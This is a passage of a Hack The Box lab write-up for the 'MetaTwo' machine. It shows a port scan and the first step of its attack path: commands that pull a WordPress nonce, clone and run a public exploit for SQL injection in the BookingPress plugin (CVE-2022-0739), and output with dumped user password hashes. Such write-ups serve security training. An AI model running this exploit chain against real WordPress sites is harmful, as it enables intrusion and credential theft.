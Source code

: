 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [MetaTwo](https://app.hackthebox.com/machines/MetaTwo) |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥 **OS**         | Linux                                                  |
| 🎯 **Difficulty** | Easy                                                   |
| 📁 **Tags**       | WordPress, CVE-2022-0739, CVE-2021-29447, XXE, Passpie |

# Scan
```
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
```

# Attack path
1. [Obtain credentials for `manager` WordPress user using SQL injection in Booking press 1.0.10 plugin](#obtain-credentials-for-manager-wordpress-user-using-sql-injection-in-booking-press-1010-plugin)
2. [Gain initial access using discovered credentials for `jnelson` user](#gain-initial-access-using-discovered-credentials-for-jnelson-user)
3. [Escalate to `root` user using credentials discovered in Passpie](#escalate-to-root-user-using-credentials-discovered-in-passpie)

### Obtain credentials for `manager` WordPress user using SQL injection in Booking press 1.0.10 plugin

#### Add `metapress.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ echo "$TARGET metapress.htb" | sudo tee -a /etc/hosts
10.129.228.95 metapress.htb
```

#### Exfiltrate WordPress hashed passwords using SQL injection in Booking press 1.0.10 plugin ([CVE-2022-0739](https://nvd.nist.gov/vuln/detail/CVE-2022-0739))
```
┌──(magicrc㉿perun)-[~/attack/HTB MetaTwo]
└─$ WP_NONCE=$(curl -s http://metapress.htb/events/ | grep -oP "wpnonce:'\K[^']+" | head -n 1)
git clone -q https://github.com/destr4ct/CVE-2022-0739.git
python3 ./CVE-2022-0739/booking-press-expl.py -u http://metapress.htb/ -n $WP_NONCE
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```
